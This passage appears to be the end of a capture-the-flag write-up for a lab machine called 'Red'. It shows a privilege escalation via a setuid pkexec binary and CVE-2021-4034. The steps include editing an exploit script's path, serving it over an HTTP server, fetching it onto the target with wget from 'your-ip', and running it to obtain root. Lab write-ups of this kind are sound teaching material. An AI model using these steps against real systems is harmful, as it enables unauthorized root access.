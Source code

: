 ```total 36
-rw-r--r-- 1 red  red   807 Aug 14  2022 .profile
-rw-rw-r-- 1 red  red    75 Aug 14  2022 .selected_editor
-rw------- 1 red  red     0 Aug 17  2022 .viminfo
```
###### A '.git' folder 👀
```
ls -la ~/.git
```
###### Output:
```
drwxr-x--- 2 red  red   4096 Aug 14  2022 .
drwxr-xr-x 4 root red   4096 Aug 17  2022 ..
-rwsr-xr-x 1 root root 31032 Aug 14  2022 pkexec
```
###### Wowwwwww, pkexec! Lets check its version to see if we can exploit it
```
./pkexec --version
```
###### Output:
```
pkexec version 0.105
```
###### If we search on google for a exploit you will come across 'CVE-2021-4034'. Since there is no compiler we can't compile it on the target. What we do find if we research for futher is that we find a python script of the exploit. Remember we can't write files in home directory so we need to download it into /tmp directory. So on in our terminal locate the file directory and start a http server so that we could download the file from the target.
###### Before we start. First open the CVE exploit file and edit the path to the pkexec
```python3
.....
libc.execve(b'/home/red/.git/pkexec', c_char_p(None), environ_p)
```
###### Then proceed with server
```
python3 -m http.server 8080
```
###### On the targets pc we download the 'CVE-2021-4034.py' exploit using:
```
wget http://your-ip:8080/CVE-2021-4034.py
```
###### Run the exploit
```
python3 CVE-2021-4034.py
```
###### Check your account
```bash
whoami
```
###### Output:
```
root
```
# Congratulations you just Won the battle against Red!
![image](https://github.com/solocyberengineer/MrBud-Home/assets/90530825/6b3eee9e-f140-4b71-a36c-f2ddc560e3c0)


